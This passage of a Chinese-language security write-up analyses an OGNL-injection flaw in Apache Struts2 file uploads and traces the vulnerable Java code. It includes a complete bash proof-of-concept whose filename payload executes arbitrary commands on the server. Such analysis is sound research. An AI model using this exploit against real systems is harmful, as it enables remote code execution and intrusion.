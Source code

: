 这里在处理异常信息时首先进行把上传文件名filename放到了异常信息里了，而filename我们是可控的，只要在filename里插入ognl表达式即可完成攻击操作。。。。

GG啊！自己还是太年轻，对框架学习的不够，也不够细心，唉～

------

#### **漏洞触发点二**

除了通过Content-length来触发漏洞外，漏洞爆发后还发现如下这样的一个POC，并没有设置Content-length属性，但却还是在filename中插入了ognl表达式，而且该POC可以成功利用漏洞

```sh
#!/bin/bash

url=$1
cmd=$2
shift
shift

boundary="---------------------------735323031399963166993862150"
content_type="multipart/form-data; boundary=$boundary"
payload=$(echo "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"$cmd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}")

printf -- "--$boundary\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%s\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n--$boundary--\r\n\r\n" "$payload" | curl "$url" -H "Content-Type: $content_type" -H "Expect: " -H "Connection: close" --data-binary @- $@
```

仔细对比上一个触发点POC中的filname内容可以发现该POC中filename传入ognl payload后还跟了一个**“\0b”**字符串，也就是空字符加了一个任意字符

我们继续回到processUpload进行分析，如果if判断文件大小符合要求则不会进入if代码块，程序顺序执行至**processFileItemStreamAsFileField**函数

```java
if (!requestSizePermitted)
{
  addFileSkippedError(itemStream.getName(), request);
  LOG.warn("Skipped stream '#0', request maximum size (#1) exceeded.", new Object[] { itemStream.getName(), this.maxSize });
  continue;
}
processFileItemStreamAsFileField(itemStream, saveDir); 
// 程序顺序执行至此
```

我们继续跟进processFileItemStreamAsFileField函数，分析该函数的功能

```java
private void processFileItemStreamAsFileField(FileItemStream itemStream, String location)
  {
    File file = null;
    try
    {
      file = createTemporaryFile(itemStream.getName(), location);
      // 这里调用了commons-fileupload-1.3.1.jar
      
      if (streamFileToDisk(itemStream, file)) {
        createFileInfoFromItemStream(itemStream, file);
      }
    }
    catch (IOException e)
```